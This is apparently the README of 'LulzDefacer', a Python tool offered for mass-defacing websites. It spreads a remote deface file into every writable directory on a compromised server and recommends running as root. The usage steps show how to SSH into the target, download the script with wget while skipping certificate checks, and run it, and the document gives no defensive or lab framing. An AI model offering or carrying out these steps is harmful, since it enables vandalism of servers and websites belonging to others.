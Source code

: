 # LulzDefacer
> A mass defacing script 

LulzDefacer is a mass defacing script that takes remote deface url and then adds a new deface file to all the directories and subdirectories of `present working directory`

**Note :** It will create files only in writable directory. So better run it with `root` user

![image](https://user-images.githubusercontent.com/28386721/39553569-f3d3c93c-4e8b-11e8-83b6-1940fdf04033.png)

# Required
1. SSH to the target server
2. Python 3
3. wget utility to download script

# How to use
1. Login to Sever
```
$ ssh username@server
```
2. Locate the directory
```
$ cd /path/to/directory/to/deface
```
3. Download the script
```
$ wget https://raw.githubusercontent.com/tbhaxor/LulzDefacer/master/defacer.py --no-check-certificate
```
4. Run the script
```
$ python3 defacer.py
```

# Contact
Facebook : https://fb.com/tbhaxor <br>
Email : tbhaxor@gmail.com
